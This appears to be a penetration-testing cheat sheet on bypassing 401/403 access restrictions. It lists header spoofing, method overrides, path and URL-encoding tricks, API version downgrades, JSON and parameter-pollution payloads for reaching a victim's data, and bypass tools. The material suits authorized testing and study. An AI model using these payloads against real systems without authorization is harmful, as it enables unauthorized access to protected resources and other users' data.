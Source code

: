 # 401 and 403 bypass

### Bypass Techniques

{% stepper %}
{% step %}
### Header-based bypass

_Manipulate headers to spoof the intended path, IP, origin, or host to bypass access restrictions._
{% endstep %}

{% step %}
### HTTP Method Overrides

_Try alternate methods (GET, POST, PUT, DELETE, etc.) when the intended method is restricted._
{% endstep %}

{% step %}
### Path and Encoding Manipulations

_Use techniques like appending slashes, dots, or URL encoding (e.g., `/admin/.`, `/admin%2F`, `/..;/admin`) to bypass route validation. <mark style="color:red;">We can double encode the last character only from w3schools even if it is an alphabet to bypass</mark>._&#x20;

If `/secret` is blocked:&#x20;

* Try using `%2e/secret_` (_if the access is blocked by a proxy, this could bypass the protection_). Try also `_**/%252e**/secret` (_double url encoding_)
* Try `site.com/SECRET`, `site.com/SECRE%54` (_ASCII encoding_), `site.com/secret%00` (_null)_
* _Try_ `site.com/anyfakedir/%2E%2E/secret` _(_`%2E` = `.` _) \[**You can double encode here too]**_
* _Try_ `curl "https://site.com\secret"`
* Use all [this list](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) in the following situations:&#x20;
  * `/FUZZsecret`
  * `/FUZZ/secret`
  * `secretFUZZ`
* **Other API bypasses:**&#x20;
  * /v3/users\_data/1234 --> 403 Forbidden
  * /v1/users\_data/1234 --> 200 OK
  * {“id”:111} --> 401 Unauthriozied
  * {“id”:\[111]} --> 200 OK
  * {“id”:111} --> 401 Unauthriozied
  * {“id”:{“id”:111\}} --> 200 OK
  * {"user\_id":"\<legit\_id>","user\_id":"\<victims\_id>"} (JSON Parameter Pollution)
  * user\_id=ATTACKER\_ID\&user\_id=VICTIM\_ID (Parameter Pollution)
{% endstep %}

{% step %}
### Token and Cookie Tampering

_Adjust session cookies or tokens (including JWTs) to elevate privileges or modify user roles if possible._&#x20;
{% endstep %}
{% endstepper %}

### Bypass using Automation

* [https://github.com/carlospolop/fuzzhttpbypass](https://github.com/carlospolop/fuzzhttpbypass)
* [https://github.com/Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3)
* [Burp Extension - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

